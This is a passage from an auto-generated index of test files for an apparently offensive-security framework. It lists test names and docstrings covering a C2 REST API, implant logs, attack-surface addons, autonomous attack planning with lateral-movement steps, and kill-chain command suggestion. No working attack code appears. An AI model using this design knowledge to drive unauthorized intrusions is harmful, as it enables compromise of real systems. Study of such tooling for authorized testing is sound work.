- `test_serialization_roundtrip_preserves_all_fields` (line 48) `def test_serialization_roundtrip_preserves_all_fields(self)`
- `test_detects_expiration_correctly` (line 65) `def test_detects_expiration_correctly(self)`
- `test_checks_permissions_with_set_operations` (line 87) `def test_checks_permissions_with_set_operations(self)`
- `_make_store` (line 105) `def _make_store(self, tmp_path)`
- `test_creates_and_lists_keys_scoped_by_tenant` (line 114) `def test_creates_and_lists_keys_scoped_by_tenant(self, tmp_path)`
- `test_validates_a_known_key_and_returns_record` (line 125) `def test_validates_a_known_key_and_returns_record(self, tmp_path)`
- `test_rejects_unknown_key_returning_none` (line 133) `def test_rejects_unknown_key_returning_none(self, tmp_path)`
- `test_rejects_empty_plaintext_key` (line 137) `def test_rejects_empty_plaintext_key(self, tmp_path)`
- `test_rejects_expired_key` (line 141) `def test_rejects_expired_key(self, tmp_path)`
- `test_updates_last_used_on_successful_validation` (line 162) `def test_updates_last_used_on_successful_validation(self, tmp_path)`
- `test_revokes_key_preventing_future_validation` (line 173) `def test_revokes_key_preventing_future_validation(self, tmp_path)`
- `test_revocation_is_idempotent` (line 179) `def test_revocation_is_idempotent(self, tmp_path)`
- `test_enforces_max_keys_per_tenant_raises_value_error` (line 183) `def test_enforces_max_keys_per_tenant_raises_value_error(self, tmp_path)`
- `test_rotates_key_preserving_tenant_label_and_permissions` (line 196) `def test_rotates_key_preserving_tenant_label_and_permissions(self, tmp_path)`
- `test_rotation_copies_permissions_from_the_rotated_key` (line 206) `def test_rotation_copies_permissions_from_the_rotated_key(self, tmp_path)`
- `test_old_key_stays_valid_during_rotation_grace` (line 217) `def test_old_key_stays_valid_during_rotation_grace(self, tmp_path)`
- `test_old_key_rejected_after_rotation_grace_expires` (line 225) `def test_old_key_rejected_after_rotation_grace_expires(self, tmp_path)`
- `test_retired_keys_are_pruned_after_grace_expires` (line 240) `def test_retired_keys_are_pruned_after_grace_expires(self, tmp_path)`
- `test_rotation_does_not_grow_active_key_count` (line 258) `def test_rotation_does_not_grow_active_key_count(self, tmp_path)`
- `test_never_stores_plaintext_token_on_disk` (line 275) `def test_never_stores_plaintext_token_on_disk(self, tmp_path)`
- `_make_app` (line 291) `def _make_app(self, tmp_path)`
- `_build_client` (line 301) `def _build_client(self, tmp_path, store)`
- `test_allows_valid_key_in_bearer_header` (line 333) `def test_allows_valid_key_in_bearer_header(self, tmp_path)`
- `test_allows_valid_key_in_x_api_key_header` (line 340) `def test_allows_valid_key_in_x_api_key_header(self, tmp_path)`
- `test_allows_valid_key_in_query_param` (line 346) `def test_allows_valid_key_in_query_param(self, tmp_path)`
- `test_rejects_missing_key_with_401` (line 352) `def test_rejects_missing_key_with_401(self, tmp_path)`
- `test_rejects_invalid_key_with_401` (line 357) `def test_rejects_invalid_key_with_401(self, tmp_path)`
- `test_rejects_key_with_insufficient_permissions_with_403` (line 362) `def test_rejects_key_with_insufficient_permissions_with_403(self, tmp_path)`
- `test_sets_g_variables_with_api_key_context_on_success` (line 368) `def test_sets_g_variables_with_api_key_context_on_success(self, tmp_path)`
- `_make_store` (line 380) `def _make_store(self, tmp_path)`
- `test_returns_a_validatable_token` (line 389) `def test_returns_a_validatable_token(self, tmp_path)`
- `test_stores_permissions_on_the_key_record` (line 397) `def test_stores_permissions_on_the_key_record(self, tmp_path)`
- `test_sets_expiration_when_days_are_provided` (line 412) `def test_sets_expiration_when_days_are_provided(self, tmp_path)`
- `_make_store` (line 426) `def _make_store(self, tmp_path)`
- `test_constant_time_comparison_rejects_wrong_secrets` (line 435) `def test_constant_time_comparison_rejects_wrong_secrets(self)`
- `test_generates_50_unique_tokens_without_collision` (line 444) `def test_generates_50_unique_tokens_without_collision(self)`
- `test_atomic_write_leaves_no_tmp_files` (line 450) `def test_atomic_write_leaves_no_tmp_files(self, tmp_path)`

#### `test_api_key_resolution.py`
**Path:** `tests/test_api_key_resolution.py`
**File Doc:** *API-key resolution contract tests.  Covers the two defects that broke ``vulnbot_groq``:  - ``self.params["api_key"]`` was hardcoded to ``None`` in ``lazyown.py`` instead of reading the config-derived ``api_key`` class attribute, so every startup-level gate (``recon``, ``lazyown`` chain, AI bootstrap) saw no key. - ``replace_command_placeholders`` only handled ``{key}`` while addons emit ``{{key}}`` (documented in ``modules/yaml_generator.py``), so ``GROQ_API_KEY="{{ api_key }}"`` was never substituted.*

**Classes:**
- `TestApiKeyWiredIntoParams` (line 21) `class TestApiKeyWiredIntoParams`
- `TestReplaceCommandPlaceholders` (line 39) `class TestReplaceCommandPlaceholders`

**Methods:**
- `test_params_api_key_is_not_hardcoded_none` (line 22) `def test_params_api_key_is_not_hardcoded_none(self)`
- `test_params_api_key_binds_config_attr` (line 28) `def test_params_api_key_binds_config_attr(self)`
- `test_class_attribute_api_key_reads_payload` (line 34) `def test_class_attribute_api_key_reads_payload(self)`
- `test_double_brace_substitution` (line 40) `def test_double_brace_substitution(self)`
- `test_single_brace_substitution` (line 47) `def test_single_brace_substitution(self)`
- `test_mixed_braces_in_one_command` (line 56) `def test_mixed_braces_in_one_command(self)`
- `test_missing_key_left_intact` (line 63) `def test_missing_key_left_intact(self)`

#### `test_api_v1.py`
**Path:** `tests/test_api_v1.py`
**File Doc:** *Integration tests for the versioned C2 REST API (``/api/v1``).  Builds a minimal Flask app with ``api_v1_bp`` registered, an isolated sessions dir and campaign database, and a tenant API key. Covers health, targets, results, campaigns, and webhook CRUD plus auth enforcement.*

**Functions:**
- `api_client` (line 23) `def api_client(tmp_path)` - *Flask test client with isolated sessions dir, db, and API key.*
- `_auth` (line 40) `def _auth(token)`
- `test_health_is_public` (line 44) `def test_health_is_public(api_client)`
- `test_targets_requires_auth` (line 51) `def test_targets_requires_auth(api_client)`
- `test_targets_empty_workspace` (line 56) `def test_targets_empty_workspace(api_client)`
- `test_targets_lists_hosts_with_services` (line 64) `def test_targets_lists_hosts_with_services(api_client)`
- `test_results_empty` (line 76) `def test_results_empty(api_client)`
- `test_results_per_client` (line 82) `def test_results_per_client(api_client)`
- `test_campaigns_empty_state` (line 95) `def test_campaigns_empty_state(api_client)`
- `test_campaigns_reads_state_files` (line 101) `def test_campaigns_reads_state_files(api_client)`
- `test_webhook_crud` (line 109) `def test_webhook_crud(api_client)`
- `test_webhook_rejects_bad_url` (line 126) `def test_webhook_rejects_bad_url(api_client)`
- `test_mutating_endpoints_require_auth` (line 134) `def test_mutating_endpoints_require_auth(api_client)`

#### `test_asset_gate.py`
**Path:** `tests/test_asset_gate.py`
**File Doc:** *Asset gate + un-nerfed outputs + IntelGraph CSP regression tests.*

**Functions:**
- `gate_env` (line 18) `def gate_env(tmp_path, monkeypatch)` - *Isolate the JSON stores so gate tests never touch sessions/.*
- `test_gate_exact_and_fuzzy_match` (line 25) `def test_gate_exact_and_fuzzy_match(gate_env)` - *Exact hits only on equality; fuzzy hits on substring.*
- `test_gate_cidr_match` (line 36) `def test_gate_cidr_match(gate_env)` - *CIDR rules contain member IPs only.*
- `test_gate_task_allow_is_closed_whitelist` (line 43) `def test_gate_task_allow_is_closed_whitelist(gate_env)` - *A non-empty task allow-list denies everything outside it.*
- `test_gate_blocks_asset_insert` (line 57) `def test_gate_blocks_asset_insert(gate_env)` - *Inserting a gated asset raises instead of polluting the graph.*
- `test_lazy_gate_surface` (line 66) `def test_lazy_gate_surface()` - *The lazy_gate verb exists with block/allow management.*
- `test_traffic_clear` (line 75) `def test_traffic_clear(gate_env)` - *Clearing drops the stream and reports the discarded count.*
- `test_intel_template_uses_vendored_libs` (line 83) `def test_intel_template_uses_vendored_libs()` - *IntelGraph must not depend on CDN scripts (CSP blocks unpkg).*
- `test_intel_template_embedded_in_lazyown_chrome` (line 94) `def test_intel_template_embedded_in_lazyown_chrome()` - *Graph pages live inside the LazyOwn layout, engine untouched by Jinja.*
- `test_intel_template_maps_edges_to_links` (line 106) `def test_intel_template_maps_edges_to_links()` - *force-graph consumes {nodes, links}; raw {nodes, edges} crashes tickFrame.*
- `test_intel_template_readmenator_grade` (line 114) `def test_intel_template_readmenator_grade()` - *ReadMenator engine: glyphs, labels, halos, communities, drag, fit.*
- `test_intel_nodes_carry_community` (line 126) `def test_intel_nodes_carry_community()` - *Every fused node joins a community with a stable family color.*
- `test_intel_payload_readmenator_shape` (line 136) `def test_intel_payload_readmenator_shape()` - *Payload mirrors ForceGraphRenderer: type/file/layer/rank + hubs.*
- `test_compact_unfolded_cap_and_flag` (line 157) `def test_compact_unfolded_cap_and_flag(gate_env)` - *Unfolded view caps at 60 and reports truncation honestly.*
- `test_digest_overview_expandable` (line 174) `def test_digest_overview_expandable(gate_env)` - *Overview indexes expandable digests and covered lineage.*
- `test_hot_facts_never_truncated` (line 194) `def test_hot_facts_never_truncated(gate_env)` - *Hot view returns the full hot set beyond the page cap.*

#### `test_attack_surface3d.py`
**Path:** `tests/test_attack_surface3d.py`
**File Doc:** *Attack-surface 3D module: surface+intel fusion + embedded pages.*

**Functions:**
- `_fixture_sessions` (line 24) `def _fixture_sessions(tmp_path)` - *Minimal campaign: world model, implant log, objective, log mention.*
- `test_attack_fuses_surface_and_intel` (line 47) `def test_attack_fuses_surface_and_intel(tmp_path)` - *C2, implant, host, service, finding, objective in one graph.*
- `test_attack_payload_readmenator_shape` (line 59) `def test_attack_payload_readmenator_shape(tmp_path)` - *Every file node carries family/layer/rank/doc for the engine.*
- `test_attack_bundle_payload` (line 72) `def test_attack_bundle_payload(tmp_path)` - *Bundle covers every file with circle angles and sphere points.*
- `test_attack_summary_feeds_loop` (line 93) `def test_attack_summary_feeds_loop(tmp_path)` - *Exposure summary scores the host for the autonomous planner.*
- `test_attack_pages_embedded_and_wired` (line 109) `def test_attack_pages_embedded_and_wired()` - *Attack pages live in LazyOwn chrome with fetch data + engine intact.*
- `test_attack_menu_entry_and_routes` (line 129) `def test_attack_menu_entry_and_routes()` - *Intel dropdown links the new module; lazyc2 serves its routes.*
- `test_new_endpoints_require_login_and_decoy` (line 144) `def test_new_endpoints_require_login_and_decoy()` - *Every new route sits behind the WEB session login + operator decoy.

Session login (flask_login), never bare HTTP Basic: the browser shows
the login page and logout actually revokes access.*

#### `test_attack_surface_addons.py`
**Path:** `tests/test_attack_surface_addons.py`
**File Doc:** *tests/test_attack_surface_addons.py  BDD: Validate cloud, supply-chain, and web attack-surface lazyaddons.  Scenarios: - Given a valid YAML addon, when loaded, it exposes required fields - Given required params, when payload.json has matching keys, the command template can be resolved - Given an install_path, it stays within the repo root - Given an enabled addon, its name matches the CLI verb convention  SDD: No hardcoded IPs, ports, or secrets in any addon definition.*

**Classes:**
- `TestAddonExists` (line 68) `class TestAddonExists` - *Each YAML addon file must exist and be parseable.*
- `TestRequiredFields` (line 88) `class TestRequiredFields` - *Every lazyaddon must declare the five mandatory top-level fields.*
- `TestToolSection` (line 118) `class TestToolSection` - *The tool sub-section must contain the execution contract.*
- `TestParams` (line 151) `class TestParams` - *Declared params must match what the execute_command template needs.*
- `TestPathSafety` (line 180) `class TestPathSafety` - *Install paths must not escape the repo root via traversal sequences.*
- `TestNoHardcodedSecrets` (line 207) `class TestNoHardcodedSecrets` - *SDD: No IP addresses, port literals, or credential patterns in YAML.*
- `TestCommandTemplates` (line 234) `class TestCommandTemplates` - *execute_command must use {param} placeholders instead of hardcoded values.*
- `TestScoutSuiteSpecific` (line 251) `class TestScoutSuiteSpecific` - *ScoutSuite is AWS-focused cloud auditing.*
- `TestProwlerSpecific` (line 273) `class TestProwlerSpecific` - *Prowler is multi-cloud (AWS, Azure, GCP).*
- `TestCloudSploitSpecific` (line 294) `class TestCloudSploitSpecific` - *CloudSploit scans cloud provider configurations for risks.*
- `TestTrivySpecific` (line 309) `class TestTrivySpecific` - *Trivy scans containers, filesystems, and repos for vulnerabilities.*
- `TestGrypeSpecific` (line 333) `class TestGrypeSpecific` - *Grype scans SBOMs and directories for known vulnerabilities.*
- `TestReportFullSpecific` (line 353) `class TestReportFullSpecific` - *report_full is an in-repo addon that wraps report_generator.py.*
- `TestFuzzAddonStructure` (line 384) `class TestFuzzAddonStructure` - *Fuzz edge cases: field types, boundary values, missing optional keys.*
- `TestResultReview` (line 418) `class TestResultReview` - *Print a human-readable summary of all attack-surface addons for review.*

**Functions:**
- `_load` (line 36) `def _load(path)`
- `_param_names` (line 41) `def _param_names(addon)`
- `_yaml_text` (line 45) `def _yaml_text(path)`
- `_all_addon_data` (line 54) `def _all_addon_data()` - *Return (name, doc_dict) parameters for every ADDON_FILES entry.*
- `_loaded` (line 59) `def _loaded(name)`

**Methods:**
- `test_file_present` (line 72) `def test_file_present(self, name, path)`
- `test_yaml_parses` (line 76) `def test_yaml_parses(self, name, path)`
- `test_has_required_fields` (line 92) `def test_has_required_fields(self, name, addon)`
- `test_name_is_string` (line 97) `def test_name_is_string(self, name, addon)`
- `test_description_is_string` (line 101) `def test_description_is_string(self, name, addon)`
- `test_enabled_is_true` (line 107) `def test_enabled_is_true(self, name, addon)`
- `test_tool_is_dict` (line 122) `def test_tool_is_dict(self, name, addon)`
- `test_tool_required_keys` (line 126) `def test_tool_required_keys(self, name, addon)`
- `test_repo_url_ends_with_git` (line 131) `def test_repo_url_ends_with_git(self, name, addon)`
- `test_repo_url_is_https` (line 136) `def test_repo_url_is_https(self, name, addon)`
- `test_execute_command_is_string` (line 141) `def test_execute_command_is_string(self, name, addon)`
- `test_params_is_list_when_present` (line 155) `def test_params_is_list_when_present(self, name, addon)`
- `test_each_param_has_name` (line 160) `def test_each_param_has_name(self, name, addon)`
- `test_each_param_has_description` (line 165) `def test_each_param_has_description(self, name, addon)`
- `no_duplicate_param_names` (line 170) `def no_duplicate_param_names(self, name, addon)`
- `test_install_path_contained` (line 184) `def test_install_path_contained(self, name, addon)`
- `test_install_path_no_dot_dot_prefix` (line 190) `def test_install_path_no_dot_dot_prefix(self, name, addon)`
- `test_no_tilde_in_paths` (line 197) `def test_no_tilde_in_paths(self, name, addon)`
- `test_no_hardcoded_ip` (line 211) `def test_no_hardcoded_ip(self, name, addon)`
- `test_no_well_known_ports` (line 217) `def test_no_well_known_ports(self, name, addon)`
- `test_no_password_literals` (line 223) `def test_no_password_literals(self, name, addon)`
- `test_execute_has_at_least_one_placeholder` (line 238) `def test_execute_has_at_least_one_placeholder(self, name, addon)`
- `addon` (line 255) `def addon(self)`
- `test_name` (line 258) `def test_name(self, addon)`
- `test_os_is_iaas` (line 261) `def test_os_is_iaas(self, addon)`
- `test_has_region_param` (line 264) `def test_has_region_param(self, addon)`
- `test_has_provider_param` (line 267) `def test_has_provider_param(self, addon)`
- `addon` (line 277) `def addon(self)`
- `test_name` (line 280) `def test_name(self, addon)`
- `test_os_is_iaas` (line 283) `def test_os_is_iaas(self, addon)`
- `test_has_provider_param` (line 286) `def test_has_provider_param(self, addon)`
- `test_category_is_recon_or_scan` (line 290) `def test_category_is_recon_or_scan(self, addon)`
- `addon` (line 298) `def addon(self)`
- `test_name` (line 301) `def test_name(self, addon)`
- `test_has_cloud_param` (line 304) `def test_has_cloud_param(self, addon)`
- `addon` (line 313) `def addon(self)`
- `test_name` (line 316) `def test_name(self, addon)`
- `test_os_is_containers` (line 319) `def test_os_is_containers(self, addon)`
- `test_has_target_param` (line 322) `def test_has_target_param(self, addon)`
- `test_triggers_docker` (line 328) `def test_triggers_docker(self, addon)`
- `addon` (line 337) `def addon(self)`
- `test_name` (line 340) `def test_name(self, addon)`
- `test_has_target_param` (line 343) `def test_has_target_param(self, addon)`
- `test_description_mentions_vulnerability` (line 349) `def test_description_mentions_vulnerability(self, addon)`
- `addon` (line 357) `def addon(self)`
- `test_name` (line 360) `def test_name(self, addon)`
- `test_category_is_reporting` (line 363) `def test_category_is_reporting(self, addon)`
- `test_install_path_is_dot` (line 366) `def test_install_path_is_dot(self, addon)`
- `test_execute_calls_report_generator` (line 371) `def test_execute_calls_report_generator(self, addon)`
- `test_repo_url_points_to_lazyown` (line 375) `def test_repo_url_points_to_lazyown(self, addon)`
- `test_name_no_spaces` (line 388) `def test_name_no_spaces(self, name, addon)`
- `test_name_lowercase` (line 392) `def test_name_lowercase(self, name, addon)`
- `test_category_falls_in_known_range` (line 396) `def test_category_falls_in_known_range(self, name, addon)`
- `test_trigger_is_list_when_present` (line 402) `def test_trigger_is_list_when_present(self, name, addon)`
- `test_os_is_known_value` (line 407) `def test_os_is_known_value(self, name, addon)`
- `test_summary_table` (line 421) `def test_summary_table(self)` - *Generate a review table (test always passes; read output for review).*

#### `test_auto_crypto.py`
**Path:** `tests/test_auto_crypto.py`
**File Doc:** *Tests for cli.auto_crypto — automatic session data encryption.  Covers: - AutoCryptoConfig defaults and overrides - AutoCryptoEngine construction - Salt generation and key derivation - Encrypt/decrypt round-trip - is_encrypted detection - Graceful no-op when password provider returns None*

**Classes:**
- `TestAutoCryptoConfig` (line 33) `class TestAutoCryptoConfig`
- `TestAutoCryptoEngine` (line 54) `class TestAutoCryptoEngine`
- `TestPasswordProvider` (line 144) `class TestPasswordProvider`
- `TestHasPassword` (line 152) `class TestHasPassword`
- `TestExitEncryptWiring` (line 169) `class TestExitEncryptWiring` - *qa/exit/EOF encrypt before leaving; atexit is only the backup net.*

**Functions:**
- `crypto_module` (line 21) `def crypto_module()`
- `tmp_sessions` (line 28) `def tmp_sessions()`

**Methods:**
- `test_default_config` (line 34) `def test_default_config(self, crypto_module)`
- `test_custom_config` (line 42) `def test_custom_config(self, crypto_module)`
- `test_disabled_engine_is_noop` (line 55) `def test_disabled_engine_is_noop(self, crypto_module, tmp_sessions)`
- `test_no_password_provider_returns_false` (line 66) `def test_no_password_provider_returns_false(self, crypto_module, tmp_sessions)`
- `test_empty_directory_is_not_encrypted` (line 77) `def test_empty_directory_is_not_encrypted(self, crypto_module, tmp_sessions)`
- `test_encrypt_decrypt_roundtrip` (line 86) `def test_encrypt_decrypt_roundtrip(self, crypto_module, tmp_sessions)`
- `test_salt_is_persisted` (line 122) `def test_salt_is_persisted(self, crypto_module, tmp_sessions)`
- `test_build_provider_returns_callable` (line 145) `def test_build_provider_returns_callable(self)`
- `test_false_without_provider` (line 153) `def test_false_without_provider(self, crypto_module, tmp_sessions)`
- `test_true_with_provider` (line 158) `def test_true_with_provider(self, crypto_module, tmp_sessions)`
- `test_false_when_provider_returns_empty` (line 163) `def test_false_when_provider_returns_empty(self, crypto_module, tmp_sessions)`
- `_stub_shell` (line 172) `def _stub_shell(self, calls)`
- `test_qa_encrypts_before_exit` (line 180) `def test_qa_encrypts_before_exit(self, monkeypatch)`
- `test_exit_encrypts_after_confirmation` (line 194) `def test_exit_encrypts_after_confirmation(self, monkeypatch)`
- `test_eof_encrypts_before_returning` (line 211) `def test_eof_encrypts_before_returning(self, monkeypatch)`

#### `test_auto_registry.py`
**Path:** `tests/test_auto_registry.py`
**File Doc:** *Auto-verb registry: loop-ready automation commands.*

**Classes:**
- `_FakeShell` (line 73) `class _FakeShell` - *Minimal shell double capturing onecmd input.*
- `_HangingShell` (line 86) `class _HangingShell` - *Shell double that never returns.*

**Functions:**
- `test_registry_covers_auto_family` (line 28) `def test_registry_covers_auto_family()` - *Every auto_* shell verb is registered exactly once with metadata.*
- `test_build_command_binds_target` (line 38) `def test_build_command_binds_target()` - *Target binds for target verbs; populate needs none.*
- `test_is_shell_verb_matches_first_token` (line 47) `def test_is_shell_verb_matches_first_token()` - *Routing keys on the verb, never on trailing args.*
- `test_verbs_for_matches_keywords` (line 55) `def test_verbs_for_matches_keywords()` - *Goal/finding text selects the right automation.*
- `test_propose_and_translate_roundtrip` (line 63) `def test_propose_and_translate_roundtrip()` - *Proposed intents translate back into runnable shell lines.*
- `test_execute_shell_verb_captures_output` (line 96) `def test_execute_shell_verb_captures_output()` - *Loop executor runs the verb and returns its transcript.*
- `test_execute_shell_verb_rejects_non_verbs` (line 104) `def test_execute_shell_verb_rejects_non_verbs()` - *Bash stays on bash: non-verbs never reach the shell.*
- `test_execute_shell_verb_timeout_never_hangs` (line 112) `def test_execute_shell_verb_timeout_never_hangs()` - *A hanging automation reports TIMEOUT instead of wedging the loop.*
- `test_execute_shell_verb_without_shell` (line 118) `def test_execute_shell_verb_without_shell()` - *Missing shell context degrades to a transcript, not an exception.*
- `test_verb_gap_flags_missing_tooling` (line 124) `def test_verb_gap_flags_missing_tooling(monkeypatch)` - *Unavailable verbs report the gap; unconstrained verbs stay ready.*
- `test_missing_binary_skips_builtins_paths_and_scripts` (line 134) `def test_missing_binary_skips_builtins_paths_and_scripts(monkeypatch)` - *Only real standalone tools are checked against PATH.*
- `test_propose_and_steps_skip_unavailable_verbs` (line 144) `def test_propose_and_steps_skip_unavailable_verbs(monkeypatch)` - *The planner never dispatches work this host cannot execute.*
- `test_steps_for_uses_next_available_keyword_verb` (line 154) `def test_steps_for_uses_next_available_keyword_verb(monkeypatch)` - *Keyword matching falls through to the next verb when one is missing.*
- `test_cancel_running_commands_kills_streaming` (line 160) `def test_cancel_running_commands_kills_streaming()` - *BDD: operator cancellation kills registered streaming processes.*
- `_run` (line 169) `def _run()`

**Methods:**
- `__init__` (line 76) `def __init__(self, output)`
- `onecmd_plus_hooks` (line 80) `def onecmd_plus_hooks(self, command)` - *Record the command and echo canned output.*
- `onecmd` (line 89) `def onecmd(self, command)` - *Block forever to exercise the executor timeout.*

#### `test_autonomous_ops.py`
**Path:** `tests/test_autonomous_ops.py`
**File Doc:** *BDD scoped tests for integrated autonomous operations C04-C10.  Given the planner frontier, graph mirror, db-backed findings, pool, notifier, side questions and updater, when I exercise their verbs against the existing campaign flows, then the criteria hold.*

**Functions:**
- `test_c04_dedup_anchor_coverage` (line 11) `def test_c04_dedup_anchor_coverage()` - *BDD: assets deduplicate and anchors resolve both ways.*
- `test_c04_mirror_to_campaign_db` (line 26) `def test_c04_mirror_to_campaign_db(tmp_path)` - *BDD: graph assets land in the campaign database and world model.*
- `test_c05_frontier_emits_once_then_empty` (line 43) `def test_c05_frontier_emits_once_then_empty()` - *BDD: planner frontier emits untried intents, then nothing new.*
- `test_c05_todo_blocks_lateral_until_creds` (line 58) `def test_c05_todo_blocks_lateral_until_creds()` - *BDD: lateral tactics wait for the credential chain step.*
- `test_c06_finding_lifecycle_on_campaign_db` (line 70) `def test_c06_finding_lifecycle_on_campaign_db(tmp_path)` - *BDD: findings live in db vulns with status markers and retests.*
- `test_c07_pool_failover_and_exhaustion` (line 98) `def test_c07_pool_failover_and_exhaustion()` - *BDD: dead head falls through, exhausted chain raises.*
- `test_c08_notify_filter_and_redact` (line 116) `def test_c08_notify_filter_and_redact()` - *BDD: severity gate drops noise and secrets are masked.*
- `test_c09_side_question_isolated` (line 128) `def test_c09_side_question_isolated()` - *BDD: side questions need snapshots and never mutate main state.*
- `test_c10_verify_rejects_bad_checksum` (line 143) `def test_c10_verify_rejects_bad_checksum(tmp_path)` - *BDD: bad checksum aborts without touching the live binary.*
- `test_c10_rollback_restores_previous` (line 159) `def test_c10_rollback_restores_previous(tmp_path)` - *BDD: rollback restores the previous binary.*
- `test_i2_shared_registry_survives_rebuilds` (line 171) `def test_i2_shared_registry_survives_rebuilds()` - *BDD: breaker state is process-wide, not reset per pool build.*
- `test_i2_pool_hard_trips_on_auth_errors` (line 186) `def test_i2_pool_hard_trips_on_auth_errors()` - *BDD: quota/auth errors trip immediately without waiting for count.*
- `test_i3_classify_retest_verdicts` (line 194) `def test_i3_classify_retest_verdicts()` - *BDD: retest output maps onto reproducible / fixed / inconclusive.*
- `test_i3_retest_bumps_evidence_version` (line 203) `def test_i3_retest_bumps_evidence_version(tmp_path)` - *BDD: resolving a retest bumps the optimistic evidence version.*
- `test_i4_shared_engine_cooldown` (line 224) `def test_i4_shared_engine_cooldown()` - *BDD: one process-wide enrich engine; cooldown dedups targets.*
- `test_i4_should_rescan_honours_fresh_scans` (line 232) `def test_i4_should_rescan_honours_fresh_scans(tmp_path)` - *BDD: fresh scan artefacts suppress rescans.*
- `boom` (line 101) `def boom(_prompt)`

#### `test_autonomous_replay.py`
**Path:** `tests/test_autonomous_replay.py`
**File Doc:** *Tests for ``skills/autonomous_replay.py``.  The replay layer must:  * Parse ``autonomous_events.jsonl`` and ignore malformed lines. * Slice the event stream inclusively by event id. * Trace a STEP_START sequence without re-executing commands. * Surface a divergence when the recorded ``decision_seed`` does not match the recomputed one (introduced by ``compute_decision_seed`` in ``skills/autonomous_daemon.py``). * Execute commands through an injected runner without depending on the daemon module.*

**Classes:**
- `_Runner` (line 161) `class _Runner`
- `_Runner` (line 185) `class _Runner`

**Functions:**
- `_event` (line 40) `def _event(event_id, objective_id, step, command, source, seed_override)`
- `_write_jsonl` (line 65) `def _write_jsonl(path, events)`
- `test_event_log_reader_returns_empty_when_missing` (line 71) `def test_event_log_reader_returns_empty_when_missing(tmp_path)` - *A missing file must yield an empty list, not raise.*
- `test_event_log_reader_skips_malformed_lines` (line 78) `def test_event_log_reader_skips_malformed_lines(tmp_path)` - *Truncated or invalid JSON lines are skipped silently.*
- `test_slice_is_inclusive_on_both_bounds` (line 96) `def test_slice_is_inclusive_on_both_bounds(tmp_path)` - *Bounds match recorded ids and are returned inclusively.*
- `test_trace_returns_one_step_per_event` (line 112) `def test_trace_returns_one_step_per_event(tmp_path)` - *Trace mode lists each STEP_START in order with no divergences.*
- `test_trace_detects_decision_seed_divergence` (line 131) `def test_trace_detects_decision_seed_divergence(tmp_path)` - *A bad recorded seed produces exactly one divergence entry.*
- `test_execute_runs_commands_through_injected_runner` (line 149) `def test_execute_runs_commands_through_injected_runner(tmp_path)` - *Execute mode delegates to the supplied runner and captures output.*
- `test_execute_marks_runner_errors_as_failure` (line 179) `def test_execute_marks_runner_errors_as_failure(tmp_path)` - *A runner that returns an error-like string flips success to False.*
- `test_replay_convenience_returns_dict` (line 195) `def test_replay_convenience_returns_dict(tmp_path)` - *The top-level ``replay`` helper returns a JSON-serialisable dict.*
- `test_replay_rejects_unknown_mode` (line 206) `def test_replay_rejects_unknown_mode(tmp_path)` - *An unsupported mode raises ``ValueError``.*
- `test_supported_modes_constant` (line 215) `def test_supported_modes_constant()` - *The constant exposes both valid modes for external validators.*
- `test_step_skips_events_without_command` (line 221) `def test_step_skips_events_without_command(tmp_path)` - *Events with no ``command`` field are dropped from the trace.*

**Methods:**
- `__init__` (line 162) `def __init__(self)`
- `run` (line 165) `def run(self, command, timeout)`
- `run` (line 186) `def run(self, command, timeout)`

#### `test_autosuggest.py`
**Path:** `tests/test_autosuggest.py`
**File Doc:** *Unit tests for cli.autosuggest.  Coverage:  * Suggestion provider contract: composite arbitration, skip rules, defensive error handling. * Engine state machine: refresh, accept clears state, set_enabled toggling. * Display rendering: empty when no suggestion, ANSI delimiters around active suggestion, truncation honours :data:`GHOST_TEXT_LIMIT`. * Provider adapters: kill-chain adjacency and phase fallback, graph-advisor adapter blends scores.*

**Classes:**
- `_StaticProvider` (line 42) `class _StaticProvider` - *Test double that always returns the same suggestion.*
- `_RaisingProvider` (line 52) `class _RaisingProvider` - *Provider that always raises — composite must skip it.*
- `_FakeAdvisor` (line 203) `class _FakeAdvisor`
- `_CapturingConsole` (line 295) `class _CapturingConsole`
- `_SequenceProvider` (line 339) `class _SequenceProvider` - *Provider that returns a different suggestion on each call.*

**Functions:**
- `test_engine_refresh_stores_suggestion` (line 59) `def test_engine_refresh_stores_suggestion()`
- `test_engine_accept_returns_command_and_clears` (line 69) `def test_engine_accept_returns_command_and_clears()`
- `test_engine_disabled_clears_state_and_returns_none` (line 81) `def test_engine_disabled_clears_state_and_returns_none()`
- `test_engine_skip_commands_do_not_refresh` (line 93) `def test_engine_skip_commands_do_not_refresh()`
- `test_engine_display_text_empty_without_suggestion` (line 102) `def test_engine_display_text_empty_without_suggestion()`
- `test_engine_display_text_renders_active_suggestion` (line 108) `def test_engine_display_text_renders_active_suggestion()`
- `test_engine_display_text_truncates_long_command` (line 119) `def test_engine_display_text_truncates_long_command()`
- `test_composite_picks_highest_score` (line 133) `def test_composite_picks_highest_score()`
- `test_composite_skips_raising_provider` (line 143) `def test_composite_skips_raising_provider()`
- `test_composite_returns_none_when_no_provider_responds` (line 152) `def test_composite_returns_none_when_no_provider_responds()`
- `test_killchain_provider_uses_adjacency` (line 158) `def test_killchain_provider_uses_adjacency()`
- `test_killchain_provider_skips_already_executed` (line 169) `def test_killchain_provider_skips_already_executed()`
- `test_killchain_provider_falls_back_to_phase_priority` (line 184) `def test_killchain_provider_falls_back_to_phase_priority()`
- `test_killchain_provider_returns_none_with_nothing_to_offer` (line 197) `def test_killchain_provider_returns_none_with_nothing_to_offer()`
- `test_graph_provider_returns_top_result` (line 215) `def test_graph_provider_returns_top_result()`
- `test_graph_provider_returns_none_when_advisor_empty` (line 232) `def test_graph_provider_returns_none_when_advisor_empty()`
- `test_graph_provider_skips_when_last_command_blank` (line 239) `def test_graph_provider_skips_when_last_command_blank()`
- `test_build_default_engine_includes_killchain_only_when_no_advisor` (line 246) `def test_build_default_engine_includes_killchain_only_when_no_advisor()`
- `test_format_hint_line_includes_accept_key_and_reason` (line 261) `def test_format_hint_line_includes_accept_key_and_reason()`
- `test_format_hint_line_truncates_long_command` (line 275) `def test_format_hint_line_truncates_long_command()`
- `test_format_hint_line_omits_reason_when_blank` (line 287) `def test_format_hint_line_omits_reason_when_blank()`
- `test_render_hint_line_emits_to_console` (line 303) `def test_render_hint_line_emits_to_console()`
- `test_render_hint_line_is_noop_without_suggestion` (line 315) `def test_render_hint_line_is_noop_without_suggestion()`
- `test_render_hint_line_is_noop_when_disabled` (line 325) `def test_render_hint_line_is_noop_when_disabled()`
- `test_engine_advances_suggestion_after_accept_refresh` (line 354) `def test_engine_advances_suggestion_after_accept_refresh()`
- `test_build_default_engine_with_unavailable_advisor` (line 372) `def test_build_default_engine_with_unavailable_advisor()`

**Methods:**
